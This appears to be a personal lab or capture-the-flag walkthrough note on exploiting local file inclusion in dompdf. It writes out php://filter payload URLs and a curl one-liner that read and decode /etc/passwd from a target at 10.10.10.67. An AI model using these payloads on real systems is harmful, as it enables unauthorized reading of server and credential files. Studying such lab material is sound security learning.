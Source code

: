 Looking for a directory and it exists

![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240331200225.png)
![](https://github.com/flucasd7/Ethical-Hacking/blob/main/Pasted%20image%2020240331200336.png)
Command line interface:
`php dompdf.php`
`php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>`

Web interface:

`http://example/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=<PATH_TO_THE_FILE>`

# Exploiting Local File Intrution
[[DomPDF Exploitation - Local File Inclusion (LFI)]]
As dompdf.php is found in /dompdf folder. we change like this:
`http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd`

It generated a PDF with a base64 code what we can get in full by viewing the source:
`curl -s  -X GET "http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=/etc/passwd" | grep -oP '\(.*?\)' | tail -n 1 | tr -d '()' | base64 -d` 

Other option is to use the filter changing *-* by *_*

`http://10.10.10.67/dompdf/dompdf.php?input_file=php://filter/read=convert.base64_encode/resource=/etc/passwd`
